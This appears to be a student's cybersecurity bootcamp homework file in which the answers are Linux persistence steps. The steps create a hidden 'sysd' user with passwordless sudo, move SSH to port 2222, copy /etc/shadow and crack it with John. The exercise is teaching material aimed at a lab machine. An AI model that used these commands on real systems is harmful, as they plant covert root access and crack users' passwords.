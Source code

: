 **Week 6 Homework Submission File: Advanced Bash - Owning the System**

Please edit this file by adding the solution commands on the line below
the prompt.

Save and submit the completed file for your homework submission.

**Step 1: Shadow People**

1.  Create a secret user named **sysd**. Make sure this user doesn't
    > have a home folder created:

    -   sudo useradd -u 953 -M sysd

2.  Give your secret user a password:

    -   sudo passwd sysd

3.  Give your secret user a system UID &lt; 1000:

    -   See answer in step one

4.  Give your secret user the same GID:

    -   groupmod -g 953 sysd

5.  Give your secret user full **sudo** access without the need for a
    > password:

    -   sudo visudo

        1.  Add sysd ALL=(ALL) NOPASSWD:ALL to the sudor’s file

6.  Test that **sudo** access works without your password:

7.  Login sysd $ whoami

8.  sysd

9.  $ sudo whoami

10. root

**Step 2: Smooth Sailing**

1.  Edit the **sshd\_config** file:

2.  nano /etc/ssh/sshd\_config

3.  uncomment port=

4.  set port=2222

5.  save

6.  exit

**Step 3: Testing Your Configuration Update**

1.  Restart the SSH service:

    -   systemctl restart sshd

2.  Exit the **root** account:

    -   exit

3.  SSH to the target machine using your **sysd** account and
    > port **2222**:

    -   ssh sysd@192.168.6.105 -p 2222

4.  Use **sudo** to switch to the root user:

    -   sudo su

**Step 4: Crack All the Passwords**

1.  SSH back to the system using your **sysd** account and
    > port **2222**:

    -   ssh sysd@192.168.6.105 -p 2222

2.  Escalate your privileges to the **root** user. Use John to crack the
    > entire **/etc/shadow** file:

    -   sudo su

    -   cp /etc/shadow /tmp/shadow

    -   john /tmp/shadow

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights
Reserved.

